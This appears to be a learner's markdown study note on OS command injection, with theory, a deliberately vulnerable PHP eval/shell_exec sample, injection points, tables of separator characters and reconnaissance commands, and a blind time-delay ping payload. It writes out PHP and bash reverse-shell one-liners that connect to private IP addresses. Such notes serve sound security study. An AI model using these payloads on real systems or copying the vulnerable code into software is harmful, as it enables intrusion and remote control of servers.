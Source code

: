 1![](../../attachments/OS%20Command%20Injection.png)
![](attachments/Simple%20Diagram.png)
# Overview
## Theory

### 1. Definition
OS Command Injection a.k.a **shell injection**. It allows an attacker to **execute OS commands** on the **server** that running an application. It's occurs when user input is **not properly validated** before **being integrated** into functions that **execute system command**.

In simple term, if an application **accepts data from users without filtering it**, an attacker can hijack the initial command and **execute arbitrary command**.
### 2. Risk
Typically fully compromise the **application** and its **data**.
Attack can leverage an this vulnerability to compromise other parts of the **hosting infrastructure**, **exploit trust relationship** to pivot the attack to other systems within the organization.
### 3. Vulnerability
```
<?php
if ($_SERVER["REQUEST_METHOD"] === "POST") {
    $ip = $_POST["ip"];

    eval('$output = shell_exec("ping -c 4 " . "' . $ip . '");');

    echo "<pre>$output</pre>";
}?>
```

This sample shows **ip** parameter taken from POST request, include the value inside dangerous **functions** "**eval()**" that directly execute user input as a part of the code and print output as in string. This sample highlights lack of **input sanitation** and **validation**.

### 4. Exploitation
Bypassing the intended command is possible using a special character that act as command separators, allowing the original context to be removed and other commands to be executed.
The main command separators on Windows and Unix systems including: **<font color="#c00000">&</font>**, **<font color="#c00000">&&</font>**, **<font color="#c00000">|</font>** or **<font color="#c00000">| |</font>**
# Practical
## <font color="#00b0f0">Injecting OS Commands</font>
### <font color="#0070c0">Finding Injection Point</font>
```
https://insecure-website.com/stockStatus?productID=<injection-point>&storeID=29
```
or 
```
https://insecure-website.com/stockStatus?productID=41&storeID=<injection-point>
```
#### Reason
It's because the *<font color="#00b050">productID</font>* & <font color="#00b050">storeID</font> that being insert in the command or query in the server.
#### BurpSuite
![](attachments/BurpSuite.png)
We also can exploit shell injection using burpsuite. 
##### Explanation
I found multiple features that takes input from user and integrate inside a code. I inspected 2 php file which is product.php and and stock.php. product.php required on productId to query and display information about related product. I tested shell injection on parameter productId but it doesn't appear to be vulnerable. So I'll do the same for stock.php, stock.php required 2 parameter which is productId and storeId. I tried on both parameter and it's appear to be vulnerable, and we get information of current user.
### <font color="#00b0f0">Testing For Vulnerability</font>

| <center>Payload Purpose</center> | <center> Linux</center> | <center>Windows</center> |
| -------------------------------- | ----------------------- | ------------------------ |
| **Print supplied string**        | & echo testing &        | & echo testing &         |
| **Listing Files**                | <center>ls</center>     | <center>dir</center>     |

### <font color="#00b0f0">Configuring Payload</font>
```
|| ls -l
```
**List file in current working directory with detailed information**

### <font color="#00b0f0">Payload Engineering</font>
#### 1. Special Escape Character

| Special Character                       | Platform  |
| --------------------------------------- | --------- |
| <center>#</center>`Comment out strings` | Both      |
| <center>&</center>                      | Both      |
| <center>&&</center>                     | Both      |
| <center>\|</center>                     | Both      |
| <center>\|\|</center>                   | Both      |
| <center>;</center>                      | Unix only |
| Newline (**0x0a** or **\n**)            | Unix only |
| \` injection command \`                 | Unix only |
| $(injection command)                    | Unix only |
#### 2. Information-Extraction Command

| **Purpose of command**   | **Linux**   | **Windows**   |
| ------------------------ | ----------- | ------------- |
| **Name of current user** | whoami      | whoami        |
| **Operating system**     | uname -a    | ver           |
| **Network config**       | ifconfig    | ipconfig /all |
| **Network connection**   | netstat -an | netstat -an   |
| **Running processes**    | ps -ef      | tasklist      |
| **File Listing**         | ls          | dir           |
#### 3. Backdoor Installation Payload
##### Reverse Shell Payload
PHP
```
; /usr/local/bin/php -r '$sock=fsockopen("192.168.20.130",4444);shell_exec("/bin/sh -i <&3 >&3 2>&3");' #
```
BASH
```
/bin/bash -l > /dev/tcp/10.0.0.1/4242 0<&1 2>&1
```

## <font color="#00b0f0">Blind Command Injection</font>
### Theory
Many instances of OS command injection are **blind vulnerabilities**. Meaning that the application **does not return the output** from the command its HTTP response. Blind vulnerabilities can still be exploited, but different techniques are required.

### Detection Technique
**echo** command is useless in term of attack against blind vulnerabilities. We could take another way around by using **time delay method** to detect shell injection vulnerability.

We can utilize this payload to test shell injection vulnerability
```
||ping -c 10 127.0.0.1||
```
This payload utilize ping features with **-c** args. **-c** args used to ping given ip for certain period of time that we given. It will delay the HTTPS response with the **-c** time frame.

**Example**
![](attachments/Blind-Shell-Injection%201.gif)

 